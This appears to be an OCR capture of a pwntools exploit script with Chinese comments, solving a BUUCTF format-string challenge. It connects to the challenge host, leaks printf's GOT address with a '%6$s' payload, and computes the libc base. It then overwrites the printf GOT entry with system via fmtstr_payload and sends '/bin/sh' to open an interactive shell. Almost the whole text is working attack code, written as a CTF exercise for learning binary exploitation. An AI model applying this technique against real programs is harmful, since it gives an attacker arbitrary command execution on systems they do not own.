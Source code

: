     
    '''
    测试函数，用来获取`格式字符串`在printf函数里参数的顺序 (如果不想偷懒可用gdb确定)
    '''
    # def exec_fmt(payload):
    #     #p   = process("./wdb_2018_2nd_easyfmt")
    #     r   = remote("node4.buuoj.cn",25128)
    #     r.recvuntil('\n',drop=True)
    #     r.sendline(payload)
    #     return r.recv()
    #     #[*] Found format string offset: 6
    
    '''
    exp
    '''
    def exp():
        print(r.recv())
        #打印printf的got表
        printf_got = elf.got['printf']
        log,info("printf_got: {0}".format(hex(printf_got)))
    
        #利用格式化漏洞，泄漏出printf在libc中的真实地址
        Payload    = p32(printf_got) + b'%6$s'
        log,info("stage 1: {0}".format(Payload))
        r.sendline(Payload)
        printf_address = r.recv()
        print("0x"+printf_address.hex())
        printf_address = u32(printf_address[4:8])
        log,info("printf: {0}".format(hex(printf_address)))
        log,info("puts: {0}".format(hex(printf_address)))
    
        #利用https://libc.rip/查询 'printf' printf_address 的libc版本
        libc_address = printf_address-printf_offset
        log,info("libc: {0}".format(hex(libc_address)))
    
        #Hook(劫持got表) 将printf替换成system
        system = libc_address+system_offset
        log,info("system: {0}, offset({1})".format(hex(system),hex(system_offset)))
        Payload = fmtstr_payload(6,{printf_got: system})
        log,info("stage 2: {0}".format(Payload))
        r.sendline(Payload)
    
        #获取Shell
        r.sendline(b"/bin/sh\0")
        r.interactive()
        